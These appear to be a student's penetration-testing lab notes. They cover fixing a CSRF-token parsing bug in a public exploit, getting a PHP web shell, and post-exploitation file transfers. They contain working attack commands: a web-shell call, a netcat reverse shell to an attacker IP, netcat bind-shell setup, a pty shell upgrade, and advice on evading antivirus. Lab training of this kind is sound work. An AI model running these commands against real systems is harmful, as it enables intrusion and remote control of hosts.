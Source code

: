             #troubleshooting "index out of range" error
                line 24: `return location.split(csrf_param + "=")[1]`
                    `split` method is used to slice the str stored at
                    `location` parm of `parse_csrf_token`
                in python, `split` slices input str using optional separator
                    passed as the first arg. the str slices returned are stored
                    in an index and can be called with a number.just run `python`
						Python 2.7.18 (default, Apr 20 2020, 20:30:41) 
						[GCC 9.3.0] on linux2
						Type "help", "copyright", "credits" or "license" for more information.
						>>> mystr = "first-second-third"
						>>> result = mystr.split("-")
						>>> result
						['first', 'second', 'third']
						>>> result[2]
						'third'
						>>> 
                in `44976` str separator is defined as `csrf_param` var of
                    `"__c"` followed by `=` on lines 18 and 24
                in the `parse_csrf_token()` function add a print startment
                    before `return` to see what its doing:
                    `print "[+] String that is being split: " + location`
                when ran we get:`[+] String that is being split: https://192.168.203.44/admin?_sk_=d47d6798c49160fa7e9`
                    the exploit expected to see `__c` but got `_sk_` instead
                    from the web server
                we can just change the `csrf_parm` var to match the `_sk_` that
                    we are getting
                it works and gives us a shell at: `https://192.168.203.44/uploads/shell.php`
                `curl -k https://192.168.203.44/uploads/shell.php?cmd=whoami`
                    to run `whoami`
                #get fully interactive shell
                    from curl it won't work because of the way http works via a
                        terminal and has issue with the `GET` requests so use
                        the browser instead
                    from the browser:
                        https://192.168.203.44/uploads/shell.php?cmd=nc%20-nv%20192.168.119.203%204444%20-e%20/bin/bash
                        and catch with `nc -lvnp 4444`
                        then upgrade the shell with: 
                            `python -c 'import pty; pty.spawn("/bin/bash")'`
                            to get an upgraded shell!!!
#file transfers post exploitation
    Post exploitation - actions perfomred after gaining some level of contorl
        on tgt to include: elevating privs, expanding contorl of other mechines,
        installing backdoors, cleaning up evidence, uploading files and tools, ect.
    #dangers of transffering attack tools
        AVs could see our tools and files, so try to use native tools
    #Pure-FTPD
        [setup_pure_ftpd](setup_pure_ftpd) set username:password as `offsec:ftp`
        
    #non-interactive shell
        lack useful features like tab complete and job control
        `ls` works becuase it compeltes with NO user interaction
        ssh to debian client and then connect to kali ftp with 
            `ftp 192.168.119.203` and use `offsec:ftp` to login
        `bye` to exit
            this is interactive
        to get `non-interactive` shell
            ssh into debian, set up bind shell
                debian: `nc -lvnp -e /bin/bash`
                kali: `nc -nv 192.168.203.44 4444`
            then from our bind shell on kali, `ftp 192.168.119.203`
            we are connected to ftp but are not getting feedback
            * non-interactive becuase`ftp` isn't redirected correctly 